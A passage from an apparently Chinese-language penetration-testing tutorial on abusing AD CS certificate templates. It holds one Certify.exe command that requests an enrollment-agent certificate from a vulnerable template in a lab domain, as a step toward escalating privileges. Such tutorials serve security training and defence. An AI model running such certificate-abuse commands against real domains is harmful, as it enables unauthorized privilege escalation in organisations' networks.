 以下是匹配条件 2 的模板的示例：

![](/assets/posts/2022-03-25-attack-surface-mining-for-ad-cs/xX5uyIOaPv3wk78.png)

此时，攻击者可以先请求注册代理证书 Vuln-EnrollmentAgent，相关命令如下。

```console
C:\Users\Marcus\Desktop> Certify.exe request /ca:DC01.pentest.com\pentest-DC01-CA /template:Vuln-EnrollmentAgent
```
